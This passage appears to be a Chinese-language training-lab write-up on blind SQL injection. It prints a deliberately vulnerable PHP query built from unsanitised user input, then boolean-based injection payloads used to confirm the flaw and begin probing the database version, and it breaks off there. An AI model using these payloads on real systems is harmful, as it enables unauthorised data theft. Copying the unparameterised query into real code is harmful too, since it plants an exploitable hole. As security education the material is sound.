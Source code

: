 ## SQL Injection (Blind)

當攻擊者執行SQL注入攻擊時，Server會response來自資料庫錯誤訊息，報告SQL語法不正確，SQL盲注入是指攻擊者進行攻擊時得不到有用報錯訊息，而是開發人員指定的通用介面。
但還是有辦法讓攻擊手透過一系列真假問題來竊取數據

### Low Level 
![alt text](image.png)

SourceCode 
```php
<?php

if(isset($_GET['Submit'])){
    // Get input
    $id = $_GET['id'];

    // Check database
    $getid  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $getid); // Removed 'or die' to suppress mysql errors

    // Get results
    $num = @mysqli_num_rows($result); // The '@' character suppresses errors
    if($num > 0){
        // Feedback for end user
        echo '<pre>User ID exists in the database.</pre>';
    }
    else{
        // User wasn't found, so the page wasn't!
        header($_SERVER['SERVER_PROTOCOL'] . ' 404 Not Found');

        // Feedback for end user
        echo '<pre>User ID is MISSING from the database.</pre>';
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?> 
```
程式碼然對id完全信任，但如果搜尋失敗，只會回傳開發人員指定的echo
![alt text](image-1.png)

### 攻擊方式
1. 判斷注入類型

    1' and 1 = 1 # exists 

    1' and 1 = 2 # MISSING 

    有此可知，此題有SQL盲注漏洞，且是string類型的漏洞

2. 取得version

    1' and length(substr((select version()),1)) = 1 # MISSING

    
    
